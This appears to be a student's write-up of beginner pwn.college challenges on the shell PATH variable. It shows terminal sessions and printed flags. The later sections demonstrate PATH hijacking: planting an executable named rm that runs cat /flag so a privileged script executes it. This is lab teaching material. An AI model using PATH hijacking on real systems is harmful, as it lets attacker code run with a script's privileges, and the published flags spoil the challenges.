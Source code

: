 # Pondering PATH

### The PATH Variable
```
hacker@path~the-path-variable:~$ PATH=" "
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: command not found
The flag is still there! I might as well give it to you!
pwn.college{0FcBaNuRstPswR91S53NAd6jDmE.dZzNwUDLzMTN2czW}
```
PATH is a special shell variable that stores a bunch of directory paths in which the shell will search for programs corresponding to commands.

Set the value of Path to " " so that ```/challenge/run``` will not be able to find ```rm``` command, thus preventing deletion of the flag file, to get the flag **pwn.college{0FcBaNuRstPswR91S53NAd6jDmE.dZzNwUDLzMTN2czW}**.

### Setting PATH
```
hacker@path~setting-path:~$ PATH="/challenge/more_commands/"
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{wirVDWLbT_Xxt0vXSfPI8kb6YhA.dVzNyUDLzMTN2czW}
```
Set the value of Path to "/challenge/more_commands/" so that ```/challenge/run``` will be able to find ```win``` command via its name, to get the flag **pwn.college{wirVDWLbT_Xxt0vXSfPI8kb6YhA.dVzNyUDLzMTN2czW}**.

### Adding Commands
```
hacker@variables~printing-variables:~$ find / -name cat
find: ‘/root’: Permission denied
find: ‘/etc/ssl/private’: Permission denied
find: ‘/tmp/tmp.G9qthVCks5’: Permission denied
/usr/bin/cat
^C
hacker@variables~printing-variables:~$ touch win
hacker@variables~printing-variables:~$ echo "/usr/bin/cat /flag" > win
hacker@variables~printing-variables:~$ ls -l win
-rw-r--r-- 1 hacker hacker 19 Oct 23 09:16 win
hacker@variables~printing-variables:~$ chmod +x win
hacker@variables~printing-variables:~$ PATH="/home/hacker"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{o6KFnTlvV6t0ZZEt9XYECYLLJwI.dZzNyUDLzMTN2czW}
```
Used ```find / -name``` command to find absolute path of cat; this is necessary as a later step was to set PATH to "/home/hacker" so as to make ```win``` accessible to ```/challenge/run```, however changing PATH value makes cat inaccessible via just its name. 

Created ```win```, redirected "/usr/bin/cat /flag" into it, and changed its permissions so as to make it executable by all using ```chmod +x``` and ran ```/challenge/run``` after changing PATH to get the flag **pwn.college{o6KFnTlvV6t0ZZEt9XYECYLLJwI.dZzNyUDLzMTN2czW}**.

### Hijacking Commands
```
hacker@path~hijacking-commands:~$ touch getflag
hacker@path~hijacking-commands:~$ echo "/bin/cat /flag" > getflag
hacker@path~hijacking-commands:~$ chmod +x getflag
hacker@path~hijacking-commands:~$ PATH="/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 7: rm: command not found
hacker@path~hijacking-commands:~$ /bin/mv getflag rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{IMe8YrLHvWmEFBCdGzmmEAFoC2b.ddzNyUDLzMTN2czW}
```
Created ```getflag```, redirected "/bin/cat /flag" into it, and changed its permissions so as to make it executable by all using ```chmod +x``` and ran ```/challenge/run``` after changing PATH to "/home/hacker".

However, I realised that I should've named ```getflag``` as ```rm``` so that ```/challenge/run``` would run my command, because an ```rm``` named command is already being invoked in its script.

I then used ```mv``` to rename ```getflag``` to ```rm``` and finally got the flag **pwn.college{IMe8YrLHvWmEFBCdGzmmEAFoC2b.ddzNyUDLzMTN2czW}**.
___